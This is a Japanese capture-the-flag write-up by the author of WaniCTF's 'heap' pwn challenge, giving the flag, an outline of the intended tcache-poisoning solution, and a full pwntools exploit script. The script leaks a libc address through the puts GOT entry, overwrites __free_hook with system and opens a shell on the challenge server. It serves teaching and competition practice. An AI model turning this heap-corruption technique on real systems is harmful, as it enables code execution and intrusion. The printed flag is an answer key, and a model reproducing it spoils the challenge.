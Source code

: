 # heap [pwn]
## 問題文

```
nc heap.wanictf.org 9008
```

+ これが作問者の現在の限界です。

### 使用ツール例

+ [pwntools](https://github.com/wani-hackase/memo-setup-pwn-utils#pwntools)
+ [objdump](https://github.com/wani-hackase/memo-setup-pwn-utils#objdump)
+ [ghidra](https://github.com/wani-hackase/memo-setup-pwn-utils#ghidra)

### セキュリティ保護

+ *Partial RELocation ReadOnly (RELRO)*
+ Stack Smash Protection (SSP)有効
+ No eXecute bit(NX)有効
+ *Position Independent Executable (PIE)無効*

## FLAG
```
FLAG{I-am-a-heap-beginner}
```
## 解法

僕が初めて作ったheapの問題です。
実際の競技中にheap問を解けたことはまだないです。

ざっくり想定解法を説明すると
1. サイズ0x20のchunkを作ってtcache poisoningでtcacheの値を書き換えてlibcのアドレスをリーク
2. サイズ0x30のchunkを作ってtcache poisoningでfree_hookの値を書き換えてsystem("/bin/sh")を呼び出す

という感じです。
個人的にはまってしまったのはfree_hookのアドレスの調べ方です。
```
objdump -T -M intel ./libc-2.27.so
```
と、objdumpを-Tで呼ばないといけないみたいです。
動的シンボルを調べるときは-Tを使うとのこと。
細かい説明は自信がないのでexploitコードだけ。

```
import pwn
import sys

def read_until(io, s):
    ret = b""
    while ret.find(s) == -1:
        ret += io.read(1)
    return ret

def leak2val(s):
    s = s + b"\x00" * (8 - len(s))
    ret = pwn.u64(s)
    return ret

def read_garbage(io):
    ret = read_until(io, b"command?: ")
    return ret

def add_item(index, size, io):
    print("***add_item***")
    io.send("1\n")
    ret = io.read()
    io.send("%d\n" % index)
    ret = io.read()
    io.send("%d\n" % size)
    ret = read_garbage(io)

def edit_item(index, data, io):
    print("***edit_item***")
    io.send("2\n")
    ret = io.read()
    io.send("%d\n" % index)
    ret = io.read()
    io.send(data)
    ret = read_garbage(io)

def show_item(index, io):
    print("***show_item***")
    io.send("3\n")
    ret = io.read()
    io.send("%d\n" % index)
    ret = read_garbage(io)
    return ret

def del_item(index, io):
    print("***del_item***")
    io.send("9\n")
    io.send("%d\n" % index)
    ret = read_garbage(io)

io = pwn.remote("heap.wanictf.org", 9008)
#io = pwn.process("./pwn08")

addr_puts_got =  0x602020
addr_puts_libc = 0x80aa0
addr_freehook_libc = 0x3ed8e8
addr_system_libc =  0x4f550

ret = read_until(io, b"command?: ")

add_item(0, 10, io)
add_item(1, 10, io)
add_item(2, 10, io)
edit_item(0, b"aaa", io)
edit_item(1, b"bbb", io)
edit_item(2, b"ccc", io)
show_item(0, io)
show_item(1, io)
show_item(2, io)
del_item(2, io)
del_item(1, io)
s = b"a" * 16
s += pwn.p64(0)
s += pwn.p64(0x21)
s += pwn.p64(addr_puts_got)
edit_item(0, s, io)
add_item(3, 10, io)
add_item(3, 10, io)
ret = show_item(3, io)

s = ret[0:6]
addr_puts = leak2val(s)
addr_libc_base = addr_puts - addr_puts_libc 
addr_freehook = addr_libc_base + addr_freehook_libc
addr_system = addr_libc_base + addr_system_libc

add_item(4, 0x20, io)
add_item(5, 0x20, io)
add_item(6, 0x20, io)
edit_item(4, b"/bin/sh", io)
edit_item(5, b"eee", io)
edit_item(6, b"fff", io)
show_item(4, io)
show_item(5, io)
show_item(6, io)
del_item(6, io)
del_item(5, io)

s = b"b" * 32
s += pwn.p64(0)
s += pwn.p64(0x31)
s += pwn.p64(addr_freehook)

edit_item(4, s, io)
add_item(7, 0x20, io)
add_item(7, 0x20, io)
s = pwn.p64(addr_system)
edit_item(7, s, io)
add_item(8, 0x30, io)
edit_item(8, b"/bin/sh", io)

io.send("9\n")
io.send("8\n")

io.interactive()
```

### 参考サイト

- [(pwn) kitten - HackMD](https://hackmd.io/@theoldmoon0602/rJf0IS9mB)